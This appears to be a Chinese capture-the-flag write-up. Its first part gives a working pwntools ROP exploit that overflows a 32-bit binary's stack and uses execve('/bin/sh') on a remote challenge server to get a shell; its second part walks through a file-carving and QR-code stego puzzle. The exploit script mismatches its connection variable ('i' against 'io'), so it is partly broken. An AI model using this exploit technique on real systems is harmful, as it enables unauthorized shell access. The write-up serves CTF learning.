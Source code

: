 # 0x00



# 0x01 pwn2

> 用ida查看main函数内容，发现可以没有限制向temp读入。
> 查看print函数发现有典型的栈溢出。
> checksec查看保护内容发现栈不能执行，但没有canary。
> 因此，利用栈溢出构造rop链。没有libc，查看elf的gadget，构造系统调用execve，但未找到字符串’/bin/sh’，考虑向已知地址写，于是调用read向bss段写再利用即可。

```python
from pwn import *
i = remote('60.191.205.81', 2017)
# io = process('./250')

# gdb.attach(io,'b *0x08048943')

e = ELF('./250')

plt_read = e.symbols['read']

pad = 0xdeadbeef

g1 = 0x080493a3 # : xor eax, eax ; ret

g2 = 0x080beebd # : [134999741, 135063720]

g3 = 0x0806cbb5 # : int 0x80

g4 = 0x080580d6 # : xor eax, eax ; pop ebx ; ret

g5 = 0x080496d3 # : xor ecx, ecx ; pop ebx ; mov eax, ecx ; pop esi ; pop edi ; pop ebp ; ret

g6 = 0x0807a8d5 # : nop ; inc eax ; ret

g7 = 0x08091350 # : xor edx, edx ; div esi ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret

g8 = 0x080a6a4d # : xchg eax, edx ; ret

g9 = 0x08050925 # : xor eax, eax ; pop ebx ; pop esi ; pop edi ; ret

p = 'A' * 62 + p32(plt_read) + p32(g9) + p32(0) + p32(e.bss()) + p32(8)
p+= p32(g1) + p32(g5) + p32(e.bss()) + p32(pad)*3 + p32(g8) + p32(g1) + p32(g6)*11 + p32(g3)

print p.encode('hex')

io.sendline(str(len(p)))
io.send(p)
io.send('/bin/sh\x00')

io.interactive()
```

# 0x02 你知道我在等你吗

> 用binwalk尝试，发现分析出一些文件
> 提示.png，扫了一下二维码让我不要关注内容，关注尾部。
> 真正的mp3，查看文件属性的时候发现解压密码。
> 尝试解压coffee.zip成功得到coffee.jpg，看到头部是ff d8，搜索ff d9。
> 尾部是一个png，修复头部信息得到一个二维码扫描后得到一个压缩包解压得到key.txt，尝试base64解密得到flag。
